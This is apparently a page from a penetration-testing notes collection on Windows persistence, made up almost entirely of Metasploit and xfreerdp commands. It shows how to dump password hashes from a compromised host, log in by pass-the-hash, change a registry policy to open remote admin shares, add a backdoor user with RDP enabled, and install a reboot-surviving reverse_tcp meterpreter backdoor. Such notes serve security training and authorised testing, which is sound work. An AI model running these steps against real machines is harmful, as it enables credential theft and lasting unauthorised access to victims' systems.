 # k - Persistence

Persistence ensures we will be able to reconnect to the compromised machine any time we llike even if the machine is rebooted or patched. To do so, we can try to gather credentials to access remote services such as RDP, SSH, VNC, VPN, create backdoors, new users, edit current services or install new vulnerabilities on the Victim.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# asuming we already gained NT AUTHORITY on the victim system.
# 1st thing to do is to make the current session stable, ie by migrating to a more stable process.
meterpreter > ps # list all running prrocesses.
meterpreter > getpid # displays our current running process ID.
meterpreter > migrate <PID> # migrate to either svchost.exe or explorer.exe.

# 2nd thing is to retrieve hashes.
meterpreter > hashdump # dumps all hashes.
# or use another module to do this...
meterpreter > run post/windows/gather/smart_hashdump # dumps all hashes.

# we can try the pass-the-hash method to login.
msf > use exploit/windows/smb/psexec
msf > set RHOST victim ip
msf > set SMBUSER <username>
msf > set SMBPASS <paste the hash>
msf > run # sometime login will fail because we don't have access to administrative shares, since we already have NT AUTHORITY, we just need to set a registry entry and the module should work.

# enter the cmd:
reg setval -k 'HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' -v LocalAccountTokenFIlterPolicy -t REG_DWORD -d 1

# copy and pase into the Meterpreter session.
# the module should work now, but if the user changes his/her password we loose our access.

# 3rd thing is we can create a new user and enable RDP if not enabled.
# check if RDP is enabled or not, in kali terminal:
xfreerdp /v:192.168.0.11 # if no response, then RDP is not enabled.

meterpreter > run getgui # displays help menu.
meterpreter > run -e -u atk -p atk # enable rdp and create new user.

# check again.
xfreerdp /v:192.168.0.11 /u:atk /p:atk # login with RDP.

# Pass the NTLM hash attack using xfreerdp
# if we obtain the NTLM hash, we can use it to login RDP using xfreerdp:
xfreerdp /u:admin /d:domain_name /pth:<ntlm_hash> /v:$ip

# 4th
# installing a Backdoor on the target.
msf > use exploit/windows/local/persistence
msf >  set SESSION
msf > set STARTUP SYSTEM # since we have system privs.
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST, LPORT 80 
msf > run 
# anytime we want to connect back to this machine, we just set up a listener with same parameters passed (use multi/handler).
# Note this persistence will continue even after the victim pc is rebooted.
```
{% endcode %}
